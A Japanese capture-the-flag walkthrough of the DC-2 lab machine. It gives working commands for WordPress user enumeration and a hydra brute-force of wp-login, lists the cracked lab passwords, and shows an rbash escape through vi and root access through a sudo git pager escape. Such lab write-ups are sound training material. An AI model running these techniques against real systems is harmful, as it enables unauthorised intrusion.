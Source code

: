 ## DC-2 454~
## 目的
- flag1 webサイト
- flag2 wordpress login
- flag3 ターゲットフォルダ
- flag4 ターゲットフォルダ
- finalflag rootフォルダ
- 合計5つのフラグを表示する

### ポートスキャンまでは同じ
  - ポートスキャン 80(http), 7744(ssh)
### WEBサイトを見る
- `192.168.56.104`でサイトを見ると`dc-2`に飛ばされる(リダイレクトと呼ぶ)
- 直すために`sudo vim /etc/hosts`に以下のように書き込む
- `192.168.56.104 dc-2`
- これはipアドレスにドメインネームを設定している
- サイトが開くのでflag1を見つける
- サイトを見てFLAGSを探す。3つヒントが書いてある。
- 1. Cewlを使う
  2. 1人でログイン
  3. 別名でログイン
### gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `$URL`の代わりに`$IP`でもOK 
- `/wp-admin`があることがわかる
### ブラウザでチェックしてみる
- 先ほど取得したディレクトリでサイトにアクセスしてみると認証ページに飛ぶことがわかる
- それ以上は特にわからない
### wig
- `wig $URL`
- wordPressのバージョンやOSのバージョンがわかる
- それ以上は特にわからない
### Nmap NSE(wpscanでもできる cf690)
- wordPressのユーザを見つけることができる
- `nmap -p80 --script http-wordpress-users 192.168.56.104`
- userが3人であることがわかる
- users.txtを作る
  - `cat > users.txt` で３人の名前を書いて、改行して ctrl + c
  - ```
    admin
    jerry
    tom 
    ```
### CewL
- CewLは指定したWEBサイトをスクレイピングして、キーワードを辞書ファイルとして生成するツール
- `./cewl.rb dc-2 -w ../cewl.txt`
  - パスが通っていないのでCewlフォルダに入って実行する
  - dc-2は/etc/hostsで設定したIPアドレスで、そこの対象のサイトをスクレイピングする
  - -wはファイルの書き込みを指定していて、一つ上のフォルダに指定している。絶対パスで自分の好きなとこにおいてもいい
### Hydra
- `hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
  - -L:ユーザリストを指定, -l:特定のユーザを指定
  - -P:パスワードリストを指定, -p:特定のパスワードを指定
  - logとpwdはwp-login.phpのソースコードを見るとわかる
### 認証情報
|ユーザ名|パスワード|
|:-|:-|
|admin|?|
|jerry|adipiscing|
|tom|parturient|

### WordPressのダッシュボードにアクセスする
  - `http://192.168.56.104/wp-admin/`
  - NmapとHydraで得たuser,passwordを入力してアクセスする
  - Flag2を見つける 
### SSH
  - wordPressの投稿者がsshのユーザと仮定している
  - jerryでログインするが失敗する。jerryはwordpressのパスワードとsshのパスワードを使い回していない
  - tomでssh `ssh -p 7744 tom@$IP`
  - passwordを入力
  - `echo $PATH`で`ls $PATH`を見るとコマンドが４つしか使えない
  - プロンプトが返ってくる `echo $SHELL`でrbashという制限が多いシェルだとわかる 
### 通常のシェルを使えるようにする
  - viは使えるのでGTFOBinsで`vi`でシェルを呼び出すのを見つける
  - viを呼び出す
  - `:set shell=/bin/sh`
  - Enterを押す
  - `:shell`
  - Enterを押す
  - `$`が出たら成功
### 環境変数を設定する
  - 通常のコマンドが使えるようにPATHを追加する
  - `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin/:/usr/bin:/sbin:/bin`
  - 確認する `echo $PATH`
### jerryでssh
  - ユーザを切り替え `su jerry`
  - パスワードを入力 <- wordpressのパスワードを使い回している 

### sudoコマンドの設定を調べる
- `sudo -l`
- 次の表示がされるが、これはgitをrootなしで使えることがわかる
  - `(root) NOPASSWORD: /usr/bin/git`
### git
- GTFOBinsでgitコマンドを利用して、root権限を取得する
- `sudo git -p help config`
- `:`と出てきたら成功で以下を入力
- `!/bin/sh`  
### Flagを取得
  - `cd /root | cat final-flag.txt` 
